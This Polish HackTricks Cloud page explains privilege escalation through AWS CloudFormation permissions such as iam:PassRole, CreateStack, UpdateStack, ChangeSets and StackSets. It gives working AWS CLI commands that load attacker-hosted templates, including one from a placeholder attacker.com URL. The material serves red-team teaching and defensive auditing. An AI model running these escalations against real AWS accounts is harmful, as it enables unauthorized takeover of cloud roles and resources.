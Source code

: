 # AWS - Cloudformation Privesc

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

## cloudformation

Aby uzyskać więcej informacji na temat cloudformation, sprawdź:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Atakujący z tymi uprawnieniami **może eskalować uprawnienia** poprzez stworzenie **stosu CloudFormation** z niestandardowym szablonem, hostowanym na ich serwerze, aby **wykonywać działania w ramach uprawnień określonej roli:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Na poniższej stronie masz **przykład eksploatacji** z dodatkowym uprawnieniem **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potencjalny wpływ:** Privesc do roli serwisowej cloudformation określonej.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

W tym przypadku możesz **nadużyć istniejącego stosu cloudformation**, aby go zaktualizować i eskalować uprawnienia, jak w poprzednim scenariuszu:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Uprawnienie `cloudformation:SetStackPolicy` może być użyte do **przyznania sobie uprawnienia `UpdateStack`** nad stosem i przeprowadzenia ataku.

**Potencjalny wpływ:** Privesc do roli usługi cloudformation określonej.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Jeśli masz to uprawnienie, ale **brak `iam:PassRole`**, nadal możesz **aktualizować stosy** używane i nadużywać **ról IAM, które już mają przypisane**. Sprawdź poprzednią sekcję w celu uzyskania przykładu wykorzystania (po prostu nie wskazuj żadnej roli w aktualizacji).

Uprawnienie `cloudformation:SetStackPolicy` może być użyte do **przyznania sobie uprawnienia `UpdateStack`** nad stosem i przeprowadzenia ataku.

**Potencjalny wpływ:** Privesc do roli usługi cloudformation już przypisanej.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Napastnik z uprawnieniami do **przekazywania roli oraz tworzenia i wykonywania ChangeSet** może **utworzyć/aktualizować nowy stos cloudformation, nadużywając ról usługi cloudformation** tak jak w przypadku CreateStack lub UpdateStack.

Poniższe wykorzystanie to **wariant**[ **CreateStack**](./#iam-passrole-cloudformation-createstack) wykorzystujący **uprawnienia ChangeSet** do utworzenia stosu.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Uprawnienie `cloudformation:SetStackPolicy` może być użyte do **nadania sobie uprawnień `ChangeSet`** nad stosem i przeprowadzenia ataku.

**Potencjalny wpływ:** Privesc do ról serwisowych cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

To jest jak poprzednia metoda, ale bez przekazywania **ról IAM**, więc możesz po prostu **wykorzystać już dołączone**, wystarczy zmodyfikować parametr:
```
--change-set-type UPDATE
```
**Potencjalny wpływ:** Privesc do roli usługi cloudformation, która jest już dołączona.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Napastnik mógłby nadużyć tych uprawnień, aby tworzyć/aktualizować StackSets w celu nadużycia dowolnych ról cloudformation.

**Potencjalny wpływ:** Privesc do ról usługi cloudformation.

### `cloudformation:UpdateStackSet`

Napastnik mógłby nadużyć tego uprawnienia bez uprawnienia passRole, aby aktualizować StackSets w celu nadużycia dołączonych ról cloudformation.

**Potencjalny wpływ:** Privesc do dołączonych ról cloudformation.

## Odniesienia

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
